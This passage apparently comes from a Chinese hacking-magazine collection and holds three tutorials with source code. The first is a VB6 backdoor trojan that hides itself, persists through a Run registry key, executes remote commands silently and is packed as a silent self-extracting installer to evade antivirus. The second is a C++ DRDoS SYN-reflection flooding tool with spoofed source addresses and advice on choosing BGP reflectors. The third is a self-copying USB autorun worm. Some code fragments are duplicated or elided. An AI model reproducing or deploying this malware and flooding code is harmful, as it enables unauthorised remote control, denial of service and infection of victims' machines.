至此，我们已经发送了连接请求，也就是说服务端会收到一个连接请求的包，从而触发服务端的 Server_ConnectionRequest 事件。这里我们先放一放，后面会有讲解。之后服务端会成功返回一个允许建立连接的数据包，客户端收到这个数据包就会触发 Winsock1_Connect() 事件。到此，两台机器之间就成功地建立了连接，那么该如何进行控制呢？

由于我们要实现的是执行远程命令，所以就需要对服务端发送一些指令，让对方执行。当我们填好命令以后，按下“执行”按钮的时候就触发了 Command2_Click() 事件。我们需要编写一段代码把命令语句发送到服务端。这里使用 Winsock 控件的 SendData 方法来实现，具体代码如下：

```vb
Private Sub Command2_Click()
    Winsock1.SendData Text2.Text
    '这里的Text2.Text就是我们要执行的命令内容，发送到服务端去的数据
End Sub
```

如果还要加入个让对方重启的功能的话，还可以这样编写 Command3_Click() 事件的代码：

```vb
Private Sub Command3_Click()
    Winsock1.SendData "88"
    '发送一个任意的指令，Server端能够识别其中的意思就行了
End Sub
```

其余的代码我就不贴出来了，大家可以自由发挥，具体代码可以参考随本文附带的源代码。所有代码完成后，点击“文件->生成 exe 文件”，选择一个路径就可以生成客户端的可执行文件了。到此，后门客户端的编写就告一段落了，下面进行最重要的 Server 端的编写。

##### 服务端编写

服务端程序也需要用到 Winsock 控件，按照同样的方法添加好控件以后，就不需要进行界面的设计了，因为 Server 端运行的时候原则上是不可见的（有谁会把木马明目张胆地显示出来呢？），所以要设置窗口不可见的话，我们可以在 Form_Load() 事件加入下面的代码就可以让窗口不可见：`Form1.Visible=False`。接下来我们首先解决木马的传播以及自动启动等功能。VB 可以通过调用强大的 API 函数来实现很多功能，我们要用到的是以下几个：

```vb
Private Declare Function ExitWindowsEx Lib "user32" (ByVal uFlags As Long, ByVal dwReserved As Long) As Long

Private Declare Function RegCreateKey Lib "advapi32.dll" Alias "RegCreateKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long

Private Declare Function RegSetValueEx Lib "advapi32.dll" Alias "RegSetValueExA" (ByVal hKey As Long, ByVal lpValueName As String, ByVal Reserved As Long, ByVal dwType As Long, lpData As Any, ByVal cbData As Long) As Long

Private Declare Function RegCloseKey Lib "advapi32.dll" (ByVal hKey As Long) As Long
```

其中，ExitWindowsEx 是用来实现重启功能的，而后面三个 RegCreateKey、RegSetValueEx 和 RegCloseKey 分别是对注册表创建主键、设置键值和关闭注册表三项操作。程序实现自动启动的方法之一就是设置注册表中的 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`，写入 `C:\windows\server.exe` 来达到目的。

```vb
Private Const HKEY_LOCAL_MACHINE = &H80000002
Private Const REG_SZ = 1

Private Sub Form_Load()
    Form1.Visible = False
    If App.EXEName <> "alg" Then
        FileCopy App.Path & "\\" & App.EXEName & ".exe", "c:\windows\system32\alg.exe"
    End If

    If Dir("c:/windows/system32/MSWINSCK.OCX") = "" Then
        FileCopy App.Path & "\\" & "MSWINSCK.OCX", "c:/windows/system32/MSWINSCK.OCX"
    End If

    Dim strString As String
    Dim alg As Long
    Dim r As Long
    strString = "c:\windows\system32\alg.exe"
    r = RegCreateKey(HKEY_LOCAL_MACHINE, "software\microsoft\windows\currentversion\run", alg)
    r = RegSetValueEx(alg, "alg", 0, REG_SZ, ByVal strString, Len(strString))
    r = RegCloseKey(alg)

    server.LocalPort = "8888"
    server.Listen
End Sub
```

```vb
r = RegCreateKey(HKEY_LOCAL_MACHINE, "software\microsoft\windows\currentversion\run", alg)
r = RegSetValueEx(alg, "alg", 0, REG_SZ, ByVal strString, Len(strString))
r = RegCloseKey(alg)

server.LocalPort = "8888"
server.Listen
```

前面我们提到了 Winsock 网络交互的原理，现在说说服务端部分。服务端收到一个包（客户端发来的连接请求），触发 `Server_ConnectionRequest` 事件，其实现代码如下：

```vb
Private Sub Server_ConnectionRequest(ByVal requestID As Long)
    If server.State <> sckClose Then
        server.Close
    End If
    server.Accept requestID
End Sub
```

连接建好以后就准备接受指令了。接受指令的模块首先要等待客户端发来数据，当客户端的数据到达了以后就会触发服务端的 `Server_DataArrival` 事件，实现代码如下：

```vb
Private Sub Server_DataArrival(ByVal bytesTotal As Long)
    Dim msg As String
    server.GetData msg
    Select Case msg
        Case "88"
            ExitWindowsEx EWX_REBOOT, 0
        Case Else
            Shell msg, vbHide
    End Select
End Sub
```

最后是关闭程序的时候关闭连接，实现代码如下：

```vb
Private Sub Form_Unload(Cancel As Integer)
    If server.State <> sckClose Then
        server.Close
    End If
End Sub
```

至此，服务端的编写就完成了，最后生成 server.exe 文件就可以了。

##### 实战与应用

以我自己的机器来实验一下。双击运行 server.exe，程序没有反应，我们打开任务管理器看看，如图3所示，程序已经运行了，改成迷惑性的文件名就真不好认出来了。我们再打开注册表看看，如图4所示，已经成功加进了 Run 启动项了，这下就万事无忧了。



图3



图4


图5


图6

我们打开客户端连接一下，填上 IP 地址 127.0.0.1，点击连接，结果如图5所示。再在远程命令那里测试一下，输入 `net user morephaze 888888 /add`，然后点击执行，如图6所示。回到本地打开 CMD，执行命令 `net user`，如图7所示，成功添加了用户。至此，程序的测试完毕。


图7

最后，还需要给大家补充几个问题。由于有的电脑是没有 Winsock 控件环境的，那么如何实现程序的可移植性呢？我们在代码里面已经考虑到了，这里简单介绍一下方法。把程序和系统本身的 Winsock 控件制作成自解压文件就可以了。把 MSWINSCK.OCX 文件和 server.exe 文件放在同一目录下，然后选中这两个文件，添加到压缩文件，然后在如图8所示的 WinRAR 界面上，勾选“创建自解压格式压缩文件”，然后选择高级选项卡，选择其中的“自解压选项”，如图9所示，在“解压后运行”里面填上 server.exe，再到模式选项卡里把“安静模式”和“覆盖模式”分别选择“全部隐藏”和“覆盖所有文件”，最后点击确定即可完成自解压后门的制作。



图8


图9

##### 小结

一个自己专用的木马就这样制造出来了，当然，在功能上它还比不上灰鸽子那样的专业远程控制软件，但毕竟是自己写的东西，杀毒软件是认不出来的。除了上面的简单功能外，比如生成可配置的服务端，也可以用 VB 来实现，至于更多强大的功能，我们下次再奉献给大家了。同志们，拿起你们的 VB，开辟自己的一片黑客领域吧！

- 适合读者：编程爱好者、工具爱好者
- 前置知识：VC++

#### 编程实现 DRDoS 攻击



文 / Swords

DRDoS 是英文“Distributed Reflection Denial of Service Attack”的缩写，意思是“分布式反射拒绝服务攻击”。DRDoS 方式靠的是发送带有被害者 IP 地址的 SYN 连接请求包发给攻击主机 BGP，根据 TCP 三次握手的规则，这些计算机会向源 IP（被害者）发出 SYN+ACK 包来响应这个请求，造成该主机忙于处理这些回应而被拒绝服务攻击。

当被害者被多个网络核心基础设施路由器攻击，所有的连接都是完全合法的 SYN/ACK 连接回应包，它们显示了一个 TCP 源端口：179。BGP 是中介路由器支持的“边界网关协议”（Border Gateway Protocol），路由器使用 BGP 与它们的邻居进行即时的信息交流来交换它们的路由表，这是为了通知它们彼此路由器可以在哪个 IP 范围内进行转交。BGP 的细节并不重要，每个良好连接的中介器都会接受它们 179 端口上的连接，也就是说，任何一个 SYN 数据包到达一个网络路由器上后，都会引出一个该路由的 SYN/ACK 回应包来，从而利用 BGP 的特性实现反射放大洪水攻击。

DRDoS 与 DDoS 的不同之处就是不需要在实际攻击之前占领大量的傀儡机，发动 DRDoS 也只需花费攻击者很少的资源。这种攻击也是在伪造数据包源地址的情况下进行的，从这一点上来说，与 Smurf 攻击一样，而 DRDoS 是可以在广域网上进行的，其名称中的“R”意为反射，就是这种攻击行为最大的特点。

为了实现 DRDoS，我专门写了一个强大的综合利用工具 Smartkid，实现了以下几个功能：多线程端口扫描、多线程 DDoS 攻击、多线程 DRDoS 攻击、ICMP 洪水、SYN 洪水、自动更新。这款工具已经开放了源代码，大家可以到 www.dream2fly.net 和 www.xtocus.net 下载，我随本文也提供了完整源代码。下面我主要根据代码来讲解一下 DRDoS 的实现原理，为了层次清楚，我删去了 ICMP 攻击部分，大家可以参看源代码。

1）首先是初始化要发送的 SYN 数据报首部，这样攻击线程可以只需要修改少许参数，就能达到加快攻击速度的目的，具体实现代码如下所示。

##### 代码实现

为了实现 DRDoS，我专门写了一个强大的综合利用工具 Smartkid，实现了以下几个功能：多线程端口扫描、多线程 DDoS 攻击、多线程 DRDoS 攻击、ICMP 洪水、SYN 洪水、自动更新。这款工具已经开放了源代码，大家可以到 www.dream2fly.net 和 www.xtocus.net 下载。

```c
void CDrdos::InitSynPacket()
{
    // 填充IP首部
    memset((void *)&ipheader,0,sizeof(ipheader));
    ipheader.h_verlen=(4<<4 | sizeof(IP_HEADER)/sizeof(unsigned long));
    ipheader.tos=0;
    ipheader.total_len=htons(sizeof(IP_HEADER)+sizeof(TCP_HEADER));
    ipheader.ident=1;
    ipheader.frag_and_flags=0x40;
    ipheader.ttl=255;
    ipheader.proto=IPPROTO_TCP;
    ipheader.checksum=0;
    ipheader.sourceIP=inet_addr(m_target_ip);
    ipheader.destIP=inet_addr(m_target_ip);

    // 填充TCP首部
    memset((void *)&tcpheader,0,sizeof(tcpheader));
    tcpheader.th_dport=htons(m_target_port);
    tcpheader.th_sport=htons(m_target_port);
    tcpheader.th_seq=htonl(rand());
    tcpheader.th_ack=0;
    tcpheader.th_lenres=(sizeof(TCP_HEADER)/4<<4|0);
    tcpheader.th_flag=2; // SYN
    tcpheader.th_win=htons(512);
    tcpheader.th_urp=0;
    tcpheader.th_sum=0;

    // 填充TCP伪首部，用来计算TCP头部校验和
    memset((void *)&psdheader,0,sizeof(psdheader));
    psdheader.saddr=ipheader.sourceIP;
    psdheader.daddr=ipheader.destIP;
    psdheader.mbz=0;
}
```

```cpp
psdheader.ptcl=IPPROTO_TCP;
psdheader.tcpl=htons(sizeof(TCP_HEADER));
```

2）在开始攻击函数 `start_drdos` 中启动一个 `drdosthread` 攻击线程 `AfxBeginThread(drdosthread, NULL)`，实现 UI 层和业务层面的分离，从而提高 UI 反应速度。

```cpp
void CDrdos::start_drdos(const vector<CString>&reflect_list)
{
    m_listCounter=0;
    m_ncounter=0;
    m_pDlg=(CsmartkidDlg*)AfxGetApp()->GetMainWnd();
    m_threadnum=m_pDlg->m_threadnum;
    strcpy(m_target_ip,m_pDlg->m_targetip.GetBuffer());
    m_target_port=m_pDlg->m_drdosport;
    m_reflectlist=reflect_list; // 开始初始化数据包
    InitSynPacket();
    m_mainnum=m_reflectlist.size()/m_threadnum;
    if((m_reflectlist.size()%m_threadnum)>0)
    {
        m_mainnum++;
    }
    m_pDlg->m_prog->SetRange(0,m_reflectlist.size());
    m_pDlg->m_prog->SetStep(1);
    AfxBeginThread(drdosthread,NULL);
}
```

3）在新的攻击线程 `drdosthread` 中管理线程资源，分配攻击反射地址和端口，从而实现 BGP 路由的分布式反射攻击。

```cpp
UINT CDrdos::drdosthread(LPVOID param)
{
    CWinThread *wt[1024];
    HANDLE hThread[1024];
    u_short nThreadCounter;
    CString reflect_ip_port;
    IPPORT ip_port;
    char zombies_ip[16]; // 建立发送包线程
    while(1)
    {
        if(g_stop==true)
        {
            break;
        }
        for(int i=0;i<m_mainnum;i++)
        {
            nThreadCounter=0;
            int j; // 每次批量创建的线程实际个数
            for(j=0;j<m_threadnum;j++)
            {
                if(g_stop==true)
                {
                    break;
                }
                if(m_ncounter>m_reflectlist.size()-1)
                {
                    m_ncounter=0;
                }
                reflect_ip_port=m_reflectlist[m_ncounter];
                int index=reflect_ip_port.Find(":",0);
                memset(zombies_ip,0,sizeof(zombies_ip));
                memcpy(zombies_ip,reflect_ip_port.GetBuffer(),index);
                reflect_ip_port.ReleaseBuffer();
                ip_port.ip=inet_addr(zombies_ip);
                ip_port.port=htons(atoi(reflect_ip_port.Right(reflect_ip_port.GetLength()-index-1)));
                // 内循环计数
                nThreadCounter++;
                m_pDlg->m_prog->StepIt();
                wt[j]=AfxBeginThread(syn_drdosthread,&ip_port);
                hThread[j]=wt[j]->m_hThread;
                // hThread[j]=NULL;
            }
            if(j!=0)
            {
                WaitForMultipleObjects(nThreadCounter,hThread,TRUE,500);
            }
            m_pDlg->m_prog->SetPos(0);
        }
    }
    m_pDlg->m_prog->SetPos(0);
    return 0;
}
```

```cpp
{
    m_ncounter=0;
    reflect_ip_port=m_reflectlist[m_ncounter];
    int index=reflect_ip_port.Find(":",0);
    memset(zombies_ip,0,sizeof(zombies_ip));
    memcpy(zombies_ip,reflect_ip_port.GetBuffer(),index);
    reflect_ip_port.ReleaseBuffer();
    ip_port.ip=inet_addr(zombies_ip);
    ip_port.port=htons(atoi(reflect_ip_port.Right(reflect_ip_port.GetLength()-index-1)));
    // 内循环计数
    nThreadCounter++;
    m_pDlg->m_prog->StepIt();
    wt[j]=AfxBeginThread(syn_drdosthread,&ip_port);
    hThread[j]=wt[j]->m_hThread;
    // hThread[j]=NULL;
    // 非常重要，因为当执行 if(m_ncounter>m_portnum-1) 时是中断的，此时 hThread[j] 无值
    if(j!=0)
        WaitForMultipleObjects(nThreadCounter,hThread,TRUE,500);
    m_pDlg->m_prog->SetPos(0);
    return 0;
}
```

4）攻击主线程 `syn_drdosthread` 负责改变传入的 BGP 参数和同步控制功能，以及配置网络引起的发送或者接收延迟时间，填充发包缓冲区，利用 `sendto` 异步发送数据包，达到效率最大化。

```cpp
UINT CDrdos::syn_drdosthread(LPVOID param)
{
    m_Sync.Lock();
    m_ncounter++;
    m_Sync.Unlock();
    IPPORT *reflect_ip_port = (IPPORT*)param;
    //sock = socket(AF_INET,SOCK_RAW,IPPROTO_RAW);
    sock=WSASocket(AF_INET,SOCK_RAW,IPPROTO_IP,NULL,0,WSA_FLAG_OVERLAPPED);
    if(sock==INVALID_SOCKET)
    {
        PrintError("WSASocket()");
    }
    BOOL flag=true;
    int ret=setsockopt(sock,IPPROTO_IP,IP_HDRINCL,(char*)&flag,sizeof(flag));
    if(ret==SOCKET_ERROR)
    {
        closesocket(sock);
        PrintError("setsockopt");
    }
    int nTimeOut_=2000; //2s
    ret=setsockopt(sock,SOL_SOCKET,SO_SNDTIMEO,(char*)&nTimeOut_,sizeof(nTimeOut_));
    if(ret==SOCKET_ERROR)
    {
        ...
    }

    closesocket(sock);
    PrintError("setsockopt");
    ...
    ret=setsockopt(sock,SOL_SOCKET,SO_RCVTIMEO,
    (char*)&nTimeOut,sizeof(nTimeOut));
    if(ret==SOCKET_ERROR){...}
    long seq_num = MakeRand32(m_ncounter);
    ipheader.destIP=reflect_ip_port->ip;
    ...
    memcpy(SendBuff,(void*)&ipheader,sizeof(IP_HEADER));
    memcpy(SendBuff+sizeof(IP_HEADER),(void*)&tcpheader,sizeof(TCP_HEADER));
    ...
    memset((void*)&syn_in,0,sizeof(syn_in));

    syn_in.sin_family = AF_INET;
    syn_in.sin_addr.s_addr = reflect_ip_port->ip;
    syn_in.sin_port = reflect_ip_port->port;
    // 发送数据包
    ret=sendto(sock,SendBuff,sizeof(IP_HEADER)+sizeof(TCP_HEADER),0,
    (struct sockaddr*)&syn_in,sizeof(syn_in));
    if(ret==SOCKET_ERROR){
      closesocket(sock);
      PrintError("sendto");
    }
    // 关闭套接字
    closesocket(sock);
    return 0;
}
```

对于 DRDoS 攻击的防御，由于一般 SYN/ACK 这个数据包都应该从内网口收到，所以在受到攻击时，可以配置防火墙从外网口收到 SYN/ACK 包时直接丢掉就可以了。

##### FAQ

- 1. 软件开发者关心的问题

首先研究清楚原理再去实现功能，问题的难点在于：多线程的控制、缓冲区参数的填写、校验和问题和攻击速度问题。以上所有这些问题，在我写程序时都一一克服了，大家可以参见 Smartkid 的源代码。

- 2. 兴趣爱好者和压力攻击测试者关心的问题

根据 Smartkid 反馈渠道得到的汇总，用户最关心的在于反射源的选取问题，大家可记住一个基本原则，就是选取的这个反射源必须为 BGP 路由，否则 DRDoS 会退化为 DDoS，导致没有反射放大效果。

适合读者：编程爱好者  
前置知识：VC

#### 浅谈蠕虫病毒的特性



文／图 暗夜舞者

最近一段时间，各大杀毒软件公司的病毒排行榜都有了新的变化，熊猫烧香位居榜首，被称为“毒王”，我们这里暂且不说其危害性，单就其传染性就很值得我们学习一番。于是有家闲来无事，就写了一个小程序 worm.exe，用以仿制“熊猫烧香”病毒，其中没有破坏性的恶意代码，只是再现了病毒的传染功能。

运行 worm.exe 后，程序会自动搜索本机的所有盘符，并在硬盘和 U 盘根目录下生成 autorun.inf 文件和本程序的复制文件 a.exe，重启机器后，双击盘符时就自动运行病毒文件 a.exe。如果 U 盘被感染，便可以传染其他机器了。另外，本程序暂时不涉及到注册表的操作。下面我们先看看 autorun.inf 中的内容，如下所示。

```ini
[autorun]
OPEN=a.exe
```

worm.exe 程序的代码主要由以下几个重要函数构成，下面分别予以介绍。

```cpp
BOOL FilesExist(LPCTSTR filename)
{
    CFileFind fFind;
    return fFind.FindFile(filename);
}
```

这个函数没有什么好介绍的，只是查看指定的文件是否存在，若存在则返回 1，否则返回 0。

```cpp
BOOL CwormDlg::FilesCreate(void)
{
    CStdioFile file;
    LPCTSTR s1="[autorun]\n";
    LPCTSTR s2="OPEN=a.exe";
    if(file.Open("autorun.inf", ...)==0)
        return 0;
    file.WriteString(s1);
    file.WriteString(s2);
    file.SetLength(file.GetPosition());
    file.Close();
    return 1;
}
```

这个函数负责创建 autorun.inf 文件，和 worm.exe 在同一目录下。它是一个布尔类型函数，如果创建成功则返回 1，否则为 0。要注意的是，`LPCTSTR s1="[autorun]\n"` 中别忘了换行符号“\n”。

```cpp
void FileEXE(void)
{
    BOOL retu=FilesExist("C:\\a.exe");
    if(retu==0)
    {
        FilesCreate();
        for(char i='A'; i<='Z'; i++)
        {
            char drive2[20]={i, ':'};
            ...
        }
    }
}
```

```cpp
char drive2[20]={i, ':'};
if((GetDriveType(drive1)==DRIVE_FIXED)||(GetDriveType(drive1)==DRIVE_REMOVABLE))
{
    LPCTSTR st=strcat(drive1,"autorun.inf");
    LPCTSTR se=strcat(drive2,"a.exe");
    CopyFile("autorun.inf", st, false);
    CopyFile("worm.exe", se, false);
    SetFileAttributes(st, FILE_ATTRIBUTE_SYSTEM|FILE_ATTRIBUTE_HIDDEN);
    SetFileAttributes(se, FILE_ATTRIBUTE_SYSTEM|FILE_ATTRIBUTE_HIDDEN);
}
```

此函数首先判断本机是否被感染，如果没有，则遍历所有盘符，并在每个盘的根目录下复制本身和 autorun.inf 文件，并把这两个文件的属性设置为“系统”和“隐藏”。最后把这个函数放在 OnInitDialog() 中，这和“熊猫烧香”有相似之处。当机器重启后，双击盘符便可自动运行，所以中毒之后即使重装机器，如果不小心双击了其他未格式化的盘符，则病毒又会死灰复燃。

经过这样的编写后，worm.exe 就已经具备了蠕虫特性，如图 1 所示是卡巴斯基的警报。不过 worm.exe 程序并没有涉及到注册表、文件关联、进程监视等，也没有像“熊猫烧香”那样删除 GHO 文件的恶毒代码，所以并没有什么危险性。



图1

